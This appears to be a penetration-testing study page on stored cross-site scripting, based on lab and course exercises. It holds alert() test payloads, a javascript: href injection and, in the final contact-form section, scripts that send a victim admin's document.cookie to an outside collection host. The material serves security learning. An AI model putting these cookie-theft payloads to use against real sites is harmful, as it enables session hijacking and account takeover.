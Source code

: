 # Stored

{% hint style="info" %}
**Stored XSS** occurs when malicious scripts are permanently stored on the server and then served to users who view the stored content.
{% endhint %}

{% hint style="danger" %}
This can lead to persistent attacks, where the malicious script runs every time the stored content is accessed, potentially stealing user data, performing actions on behalf of users, or defacing the website.
{% endhint %}

## Stored Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The Blog we are testing has two fields: `username` and `comment`. When we test the latter for HTML injection it does not work as the `<>` characters are filtered out by the application (Figure 1). However, the HTML injection works on the `username` field (Figure 2).

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_1.png" alt=""><figcaption><p>Figure 1: Testing the <code>comment</code> field for HTML injection.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_2.png" alt=""><figcaption><p>Figure 2: Enumerating a vulnerable to HTML injection field.</p></figcaption></figure>

Next, we can test for XSS on the `username` field (Figure 3), and if successful, every user that visits the page will have the payload executed on their browser.

<figure><img src="../../../.gitbook/assets/web_xss_stored_server_3.png" alt=""><figcaption><p>Figure 3: Enumerating a vulnerable to XSS field.</p></figcaption></figure>

## Stored Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This time the application in question has a survey form to complete that includes six fields in total, two of them vulnerable to **HTML injection** (Figure 4).&#x20;

<figure><img src="../../../.gitbook/assets/web_xss_stored_client_1.png" alt=""><figcaption><p>Figure 4: Stepping through the application and testing for HTML injection.</p></figcaption></figure>

If we test for XSS we get a prompt box back (Figure 5.1), and we can review how this exactly works via the source code of `survey.js` file. At the end of this file, the `getData` function sends a `GET` request and constructs the results table on the front-end (Figure 5.2).

<figure><img src="../../../.gitbook/assets/web_xss_stored_client_2.png" alt=""><figcaption><p>Figure 5: Achieving XSS and reviewing how it worked.</p></figcaption></figure>

## href Attribute

> _The example below is based on PortSwigger's_ [_Stored XSS into anchor `href` attribute with double quotes HTML-encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) _lab._

In this application there is a comment functionality which includes a `Website` field and its value is stored within the HTML `href` attribute (Figure 6).

<figure><img src="../../../.gitbook/assets/web_xss_stored_1.png" alt=""><figcaption><p>Figure 6: Identifying potential XSS vectors.</p></figcaption></figure>

We can try escaping the tag using different payloads, but, unfortunately, none of them works.

```javascript
// JaveScript payloads used to escape 
"><script>alert()</script>
"><img src=x onerror=alert()>
```

However, **the `href` attribute can itself create a** [**scriptable context**](https://blog.udemy.com/javascript-href/), thus, we are not required to escape it. In this case, we can use the `javascript` pseudo-protocol directly (Figure 7).

```javascript
// JaveScript payloads used
javascript:alert()
```

<figure><img src="../../../.gitbook/assets/web_xss_stored_2.png" alt="" width="563"><figcaption><p>Figure 7: Achieving Stored XSS via a URI-scheme based payload.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a ticket functionality and it give us access to both a low- (`UserA`) and a high-privileged account (`AdminA`) (Figure 8).

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 8: Setting up FireFox's  <a href="../../authorization/automated-a-b-testing.md#multi-account-containers">Multi-Account Containers</a> for XSS testing.</p></figcaption></figure>

We can use a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), and use `userA` to send a JavaScript payload to `AdminA` through the description box on the Support Ticket page. When the latter receives and opens `userA`'s ticker, a `GET` request will be sent to our server containing `AdminA`'s session cookie (Figure 9 & 10).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com',
        {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
        });
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 9: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>
